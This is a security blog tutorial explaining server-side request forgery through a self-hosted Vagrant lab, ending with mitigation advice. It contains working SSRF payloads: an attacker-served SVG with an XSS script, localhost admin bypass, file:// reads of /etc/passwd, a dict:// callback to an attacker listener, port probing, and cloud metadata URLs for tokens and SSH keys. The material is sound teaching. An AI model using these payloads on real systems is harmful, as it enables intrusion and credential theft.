:page-slug: understanding-ssrf/
:page-date: 2020-05-06
:page-category: attacks
:page-subtitle: Attacking a web server using SSRF
:page-tags: security, web, vulnerability, ethical-hacking
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620331136/blog/understanding-ssrf/cover_srzscf.webp
:page-alt: Blacksmith. Photo by Hannah Gibbs on Unsplash: https://unsplash.com/photos/BINLgyrG_fI
:page-description: Here we will see what a Server Side Request Forgery is, how hackers can exploit it, and what are the best ways to protect against this attack.
:page-keywords: Web, Security, Vulnerability, Hacking, SSRF, Input Validation, Ethical Hacking, Pentesting
:page-author: Jonathan Armas
:page-writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/BINLgyrG_fI

= Understanding SSRF

Many web applications request outside services
for data, configurations, updates, among others.
This is beneficial for the developers and maintainers
because it keeps separation of duties in their infrastructure,
one for managing the view and another for the data.
When it is done right, these applications are easier to maintain
and to add features to,
but there are some intrinsic risks
in getting information through the internet using web services.

`Server Side Request Forgery`, `SSRF`, occurs when
an attacker can create requests
from the vulnerable server to the internet/intranet.
Typically, the vulnerable server has a functionality
that reads data from a URL, publishes data to a URL,
or imports data from a URL.
An attacker could abuse this functionality
to read or update internal resources,
or bypass access controls
like firewalls that prevent the attackers from accessing them directly.

In a normal use case,
the vulnerable application works like this:

.normal use case
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331135/blog/understanding-ssrf/normal-case_olhdmb.webp[normal-case]

. The user requests information from an external server
through the Web Server. For example,
`GET /?url=http://external.server/data HTTP/1.1`
. The server makes the request to the external server
. If the request is to an intranet server,
then it passes through the company firewall
. The external server responds with the data requested,
and the user receives it

When an attacker finds this,
and he wants to bypass the firewall
in order to get internal resources,
then the process of the attack is the following:

.ssrf attack
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331134/blog/understanding-ssrf/ssrf_n3pvyq.webp[ssrf-attack]

. The attacker makes the same request
but modifies the payload
for a request to another internal server, for example,
`GET /?url=http://admin.server/users HTTP/1.1`
. The server makes the request to the modified server
. The request passes through the company firewall
bypassing its measures
. The admin server responds with the data requested by the attacker

== SSRF lab

To set up our lab,
we are going to use `Hashicorp's` link:https://www.vagrantup.com/[Vagrant];
the source files are below.
Create a folder with the name `ssrf`
and save the `Vagrantfile` there.

.setting up the lab
[source, bash, linenums]
----
$ mkdir ssrf
$ cd ssrf
ssrf$ nano Vagrantfile #Add the content here
----

.Vagrantfile
[source, ruby]
----
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|

  config.vm.box = "jarmasatfluid/ssrftest"
  config.vm.box_version = "1"
  config.vm.network "private_network", ip: "192.168.56.2"

end
----

Then run the environment using:

.vagrant up
[source, bash]
----
ssrf$ vagrant up
----

This will create a `Linux` machine
with `LAMP` installed and configured.
At this point, everything we need has been completed
and is ready for us to launch an attack.

Now we can set up our attacking machine.
Here we are using link:https://www.kali.org/[Kali Linux] with `Vagrant` too,
but you can use whatever `OS` you prefer.

These are the tools that we are going to use:

* link:https://portswigger.net/burp[Burpsuite]
* link:http://netcat.sourceforge.net/[Netcat]
* link:https://tools.kali.org/web-applications/dirbuster[Dirbuster]
* link:https://www.python.org/[Python]

If you are using `Kali`, then everything has already been installed by default.

We are ready to go.

== Enumerating our server

First, we need to check the server ports.
We can use `nmap` or `ncat` to do it.

.port scanning
[source, bash, linenums]
----
$ nmap 192.168.56.2
$ ncat -vz 192.168.56.2 80
$ ncat -vz 192.168.56.2 3306
----

.nmap output
[source, bash]
----
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-05 13:32 SA Pacific Standard Time
Nmap scan report for 192.168.56.2
Host is up (0.00051s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp
80/tcp open  http
MAC Address: 08:00:27:0A:C5:08 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 10.19 seconds
----

.nc
[source, bash]
----
Ncat: Connected to 192.168.56.2:80.
Ncat: 0 bytes sent, 0 bytes received in 0.31 seconds.
Ncat: No connection could be made because the target machine actively refused it. .
----

Our server runs `Apache` on `port 80`
and `MySQL` on `port 3306`, but we do not have access to it.

Then using `Dirbuster`, we can search for directories on the web server.

.dirbuster
[source, bash]
----
$ dirb http://192.168.56.2/

DIRB v2.22
By The Dark Raver

START_TIME: Tue May  5 13:30:46 2020
URL_BASE: http://192.168.56.2/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

GENERATED WORDS: 4612

 Scanning URL: http://192.168.56.2/
==> DIRECTORY: http://192.168.56.2/code/
+ http://192.168.56.2/index.html (CODE:200|SIZE:11321)
+ http://192.168.56.2/server-status (CODE:403|SIZE:277)

 Entering directory: http://192.168.56.2/code/
+ http://192.168.56.2/code/admin.php (CODE:302|SIZE:2160)
+ http://192.168.56.2/code/index.php (CODE:200|SIZE:1148)

END_TIME: Tue May  5 13:30:53 2020
DOWNLOADED: 9224 - FOUND: 4
----

As we can see, there is an admin site to which we do not have access,
and a normal site to search for products.

== SSRF attacks

Given that we have access to the search products site,
then we can make a request and intercept it:

.products request
[source, bash]
----
POST /code/ HTTP/1.1
Host: 192.168.56.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Origin: http://192.168.56.2
Connection: close
Referer: http://192.168.56.2/code/
Cookie: PHPSESSID=6tp090rfsdurfgg5hlfrgr7v97
Upgrade-Insecure-Requests: 1

product_id=5&url=http%3A%2F%2F127.0.0.1%2Fcode%2Fproducts.php%3Fproduct_id%3D&s=OK
----

There we can see that it makes a request with a URL to retrieve the data.
So, what happens when we modify the URL?
Let's change it to `https://owasp.org/`:

.simple SSRF
----
product_id=&url=https%3a//owasp.org/&s=OK
----

Then it will load the `OWASP` web page on our site:

.ssrf vulnerable
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331135/blog/understanding-ssrf/ssrf-vulnerable_fmgfou.webp[ssrf-vulnerable]

Now we have several options to work with.

Reflected XSS::

Let's create an `SVG` image in our kali machine
with an `XSS` payload
and then serve it on a local `Python` server:

.local xss
[source, bash]
----
$ nano payload.svg # Put the content here
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
----

.payload.svg content
----
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#FF3435" stroke="#FF3435"/>
<script type="text/javascript">
alert('PWNED');
</script>
</svg>
----

Then simply put your URL into the request and watch the result:

.SSRF to XSS payload
----
product_id=&url=http%3a//<YOUR_IP>%3a8000/payload.svg&s=OK
----

.SSRF to XSS result
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331135/blog/understanding-ssrf/xss_zi2u62.webp[xss-vulnerable]

Bypassing controls::

As we saw earlier, we could not access the admin section of the server;
this can be bypassed with this vulnerability:

.SSRF to admin payload
----
product_id=&url=http%3A%2F%2F127.0.0.1%2Fcode%2Fadmin.php&s=OK
----

.SSRF to admin result
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331135/blog/understanding-ssrf/admin_vqyfda.webp[control-bypass]

If the server had some local HTTP servers
like a `mongodb` database,
we could bypass the access controls with this vulnerability.

Information disclosure::

We can use `file://` to get internal files:

.file usage
----
product_id=&url=file%3a///etc/passwd&s=OK
...
<div class="row d-flex justify-content-center">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
----

We can also use the `dict://` URL schema to connect to a server and send data:

.dict usage
----
$nc -lvp 8000
# Payload
product_id=&url=dict%3a//<YOUR_IP>%3a8000/pwned&s=OK
...
Ncat: Connection from IP:PORT.
CLIENT libcurl 7.47.0
pwned
QUIT
...
----

This is useful when we find another vulnerable server or service,
because we can send data to it and maybe even execute commands.

Port enumeration::

.port enum
----
# Port open
product_id=&url=127.0.0.1%3a3306&s=OK
...
<div class="row d-flex justify-content-center">
5.5.5-10.0.38-MariaDB-0ubuntu0.16.04.1
...
# Port closed
...
<div class="row d-flex justify-content-center">
</div>
...
----

Cloud goodies::

If the target uses `Amazon EC2` or `Google Cloud`,
then you can request metadata from them:

.cloud SSRF
----
# Amazon
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/user-data/
# Google Cloud
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json
----

Because the server uses `cURL`,
there are some URL schemas that this library does not support,
like `ssh22`, `expect`, among others.
For more information and payloads,
you can go link:https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery[here]
or check this paper from link:https://owasp.org/www-project-cheat-sheets/assets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet_SSRF_Bible.pdf[OWASP].


== Solution

The first level of protection against this attack
is to implement input validation.
It could be in the form of validating the domain name of the target host
using a whitelist.
With this, if the attacker tries to access more resources,
it will be impossible for him.

Besides, if it is possible, avoid querying URLs using user input.
Even if they are hidden fields,
an attacker can modify them and exploit a SSRF vulnerability.
It is better to request resources
directly on the web server
whenever it is possible.

Another way to do this is to prevent the web application
to access only the resources that it will need
by segregating the network.
This will prevent access to other resources in the network,
but it does not work against local access.

If you want more information about protections against SSRF,
you can check link:https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html[OWASP]
or our link:https://docs.fluidattacks.com/criteria/[*Criteria*].
